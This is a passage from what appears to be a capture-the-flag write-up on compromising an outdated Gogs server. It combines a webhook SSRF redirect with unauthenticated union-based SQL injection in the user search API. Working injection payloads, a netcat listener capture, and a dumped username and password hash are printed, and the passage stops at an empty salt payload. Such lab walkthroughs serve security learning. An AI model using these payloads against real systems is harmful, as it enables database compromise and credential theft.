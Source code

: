 Inspecting the source code we can identified the service which is running on port 3000 is an gogs also it reveal the version it is an outdate version of gogs 
>gogs a self-hosted git service written in go

Looking for public exploites we can find a sql vulnerabilities in this version with poc's

## Foothold
### Sql Injection
Unauthenticated SQL Injection in Gogs user search. Gogs provides an api view to give javascript code the possibility to
search forexisting users in the system. This view is accessible at /api/v1/users/search?q=<search query>.The q Parameter of
this view is vulnerable to SQL injection.The vulnerability results at least in a complete compromise of the database.
Referance from exploitdb [https://www.exploit-db.com/exploits/35238](https://www.exploit-db.com/exploits/35238)
Attack technique Union based injection

Back to webhook we did the last and run the redirect scrtpt with this payload
```bash
sudo python3 redirect.py 80 "http://localhost:3000/api/v1/users/search?q=')/**/ORDER/**/BY/**/27--"
```
we will receive the response with more data which is also leaking a username
```bash
nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.11.176 32784
POST / HTTP/1.1
Host: 10.10.16.17:9001
Accept: */*
Content-type: application/json
Content-Length: 564

{"webhookUrl":"http:\/\/10.10.16.17:9001","monitoredUrl":"http:\/\/10.10.16.17","health":"up","body":"{\"data\":[{\"username\":\"susanne\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/c11d48f16f254e918744183ef7b89fce\"}],\"ok\":true}","message":"HTTP\/1.0 302 Found","headers":{"Server":"BaseHTTP\/0.6 Python\/3.10.6","Date":"Thu, 29 Dec 2022 08:25:46 GMT","Location":"http:\/\/localhost:3000\/api\/v1\/users\/search?q=')\/**\/ORDER\/**\/BY\/**\/27--","Content-Type":"application\/json; charset=UTF-8","Set-Cookie":"_csrf=; Path=\/; Max-Age=0","Content-Length":"111"}}
```

we aleady know gogs is an opensource application. so we can read the source code from git rep of [gogs git](https://github.com/gogs/gogs). It use sqlitedb for storing data. From this git repo [https://github.com/gogs/gogs/tree/main/internal/db](https://github.com/gogs/gogs/tree/main/internal/db). we can identify how gogs create user table and their columns

Use the above webhook ssrf method we can dump username,password,salt from the user table

### Dumping user table
payload for username 
```bash
 sudo python3 redirect.py 80 "http://localhost:3000/api/v1/users/search?q=')/**/UNION/**/ALL/**/SELECT/**/1,10,(SELECT/**/name/**/from/**/user),4,12,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--" 
 ```
Username:susanne  
Payload for password
```bash
sudo python3 redirect.py 80 "http://localhost:3000/api/v1/users/search?q=')/**/UNION/**/ALL/**/SELECT/**/1,10,(SELECT/**/passwd/**/from/**/user),4,12,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--"
```
password:66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37cd  
Payload for salt
```bash
```